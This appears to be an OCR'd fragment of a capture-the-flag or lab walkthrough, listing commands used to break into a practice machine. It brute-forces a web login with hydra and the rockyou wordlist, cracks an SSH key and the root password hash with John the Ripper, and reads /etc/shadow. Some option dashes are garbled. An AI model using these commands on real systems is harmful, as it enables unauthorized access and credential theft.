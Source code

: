  hydra -l usuarioencontrado -P rockyou.txt 10.10.107.125 http-post-form “/DIRECTORIOSECRETO:user=^USER^&pass=^PASS^:Username or password invalid”
sudo /usr/share/john/ssh2john.py archivodescargado > hash.txt
sudo john — wordlist=rockyou.txt hash.txt
**sudo cat /etc/shadow**
**sudo john — wordlist=rockyou.txt roothash.txt**

